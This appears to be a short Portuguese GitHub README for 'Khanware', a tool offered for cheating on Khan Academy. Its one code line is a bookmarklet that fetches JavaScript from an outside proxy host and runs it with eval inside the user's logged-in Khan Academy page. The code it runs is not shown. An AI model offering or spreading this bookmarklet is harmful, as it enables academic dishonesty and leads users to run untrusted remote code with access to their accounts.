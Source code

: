 <div align="center">
  
## ✨ Cheat para a plataforma Khan Academy!
<br><br><br>
### 🔓 Como usar:

1 - Selecione todo o conteudo do bloco abaixo.

2 - Arraste para a barra de favoritos.

3 - Abra o [Khan Academy](https://pt.khanacademy.org/) e clique no bookmark.

```js
javascript:fetch('https://proxy.khanware.space/estrogen.productions/p/raw/z6dwi4dw03',).then(t => t.text()).then(eval);
```

<br><br>

### _🌿 Get good, get Khanware._

**O Melhor cheat de KhanAcademy!**

[Instagram](https://www.instagram.com/_khanware/)

[TikTok](https://www.tiktok.com/@_khanware)
